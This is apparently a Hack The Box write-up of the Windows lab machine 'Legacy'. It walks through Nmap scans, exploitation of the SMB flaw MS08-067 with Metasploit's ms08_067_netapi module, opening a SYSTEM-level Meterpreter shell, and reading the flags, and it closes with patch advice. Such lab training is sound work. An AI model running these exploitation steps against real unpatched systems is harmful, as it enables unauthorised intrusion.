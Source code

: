 [Done](Done)
## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)
- **Exploits Used**:
    - [SMB](SMB) vulnerability: **MS08-067 (CVE-2008-4250)** — Remote Code Execution
- **Tools**:
    - [Nmap](https://nmap.org/)
    - [Metasploit](https://www.metasploit.com/)
    - [Meterpreter](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)

---

## 🔍 Recon

### 📌 Add to `/etc/hosts`

```bash
echo "10.10.10.4 legacy.htb" | sudo tee -a /etc/hosts
```

### 🔎 Nmap Full TCP Scan

```bash
nmap -sC -sV -p- -Pn -T4 legacy.htb
```

### 🔐 Vulnerability Scan (Targeted SMB Ports)

```bash
nmap -p 135,139,445 -sT -A -O -sV -sC --script vuln -Pn -T4 legacy.htb
```

✅ **Findings**: Vulnerable to [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250) – MS08-067 (Server Service Vulnerability)

---

## 💥 Exploitation

### 🚀 Launch Metasploit

```bash
msfconsole -q
```

### 🔍 Search for Exploit

```bash
search CVE-2008-4250
```

✅ Use: `exploit/windows/smb/ms08_067_netapi`

### 🛠️ Configure Payload

```bash
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 10.10.10.4
set LHOST tun0
run
```

---

## 🐚 Meterpreter Shell

### 🎉 Confirm Access

```bash
getuid
```

✅ Output: `NT AUTHORITY\SYSTEM`

### 📁 Navigate to Flags

```shell
cd "Documents and Settings/john/Desktop"
type user.txt

cd ../../Administrator/Desktop
type root.txt
```

---

## 🛡️ Mitigation

> **Patch Recommendation**:  
> Apply [Microsoft Security Bulletin MS08-067](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067) to fix the remote code execution vulnerability in the Server service. This update is **critical** for Windows XP, 2000, and 2003 systems.

---

## 🧠 Actions Learned from This Box

- Importance of **patching legacy systems** 🩹
- SMB port enumeration using Nmap
- Exploiting Windows vulnerabilities using **Metasploit**
- Using `Meterpreter` for privilege access and system exploration
- CVE identification and mitigation strategy 📚

---

## 🔗 References

- [NVD — CVE-2008–4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250)
- [MITRE — CVE-2008–4250](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250)
- [MS08-067 Microsoft Security Bulletin](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)
